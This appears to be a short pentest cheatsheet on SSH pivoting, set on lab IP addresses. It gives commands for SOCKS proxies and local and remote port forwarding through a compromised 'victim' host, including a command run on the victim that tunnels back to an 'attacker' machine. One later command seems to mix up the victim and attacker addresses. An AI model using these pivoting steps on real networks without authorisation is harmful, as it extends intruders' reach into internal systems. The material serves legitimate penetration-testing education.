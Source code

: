 ## SSH Cheatsheet / Blackmagic

SSH has a lot of exciting features when it comes to pivoting in a pentest environment; btw most of it stemmed from devops situations :P. This is assuming you having ssh access on your victim, probably with root privilleges.

192.168.56.201 -> Victim Machine
192.168.56.202 -> Attacker Machine

The -f Commands forks the process into background and -N will not execute remote commands so you don't see a bash terminal but it runs in background.Good for crappy shells with less interaction
### 1. Socks Proxy
	ssh -D 127.0.0.1:1080 victim@192.168.56.201 -f -N
Creates a socks proxy tunnel via your local machine at local port 1080

### 2. Local Port Forwarding
	ssh -L 9999:localhost:22 victim@192.168.56.201 -f -N
    
Let's assume you have popped a box (low priv) which has ssh service running but the firewall blocks it from outside and for some wierd reason port 9999 is acessible from the outside.
You could do the above mentioned to Locally forward 22 to 9999
    
### 3. Remote Port Forwarding
The most useful commnand you will ever use in your life; execute at victim machine  

	ssh -R 6666:localhost:22 attacker@192.168.56.202
This forwards localport (ssh of the victim) to your system local port 6666 through an ssh tunnel.

You could then connct using ssh victim@localhost -p 6666 

You could do something cooler too , assuming you have a machine on the victim network 210 and you want to access it's web port directly from your attacker machine you can do this -  

	ssh -R localhost:9060:192.168.56.210:80 victim@192.168.56.201

Here you setup a secure SSH tunnel on the localport (attacker) 9060 which has a direct connection to port 80 of 210 ( a machine on victim network), cool eh ?

After that you could do
	ssh -R 7777:localhost:9060 attacker@192.168.56.201 -f -N
    
 This would remtely forward port 9060 on victim machine to your localport 7777.
 So basically you could browse port 80 on machine 192.168.56.210 from your own browser by pointing to http://localhost:7777
 
_More example coming soon. Please tweet out to @0xrnair in case you need clarifications_ ----
 

References:
1. [The Black Magic of SSH / SSH Can do that ?](https://vimeo.com/54505525)   
2. [Why aren't we using SSH for everything](https://medium.com/swlh/ssh-how-does-it-even-9e43586e4ffc#.hjbor5jlu)
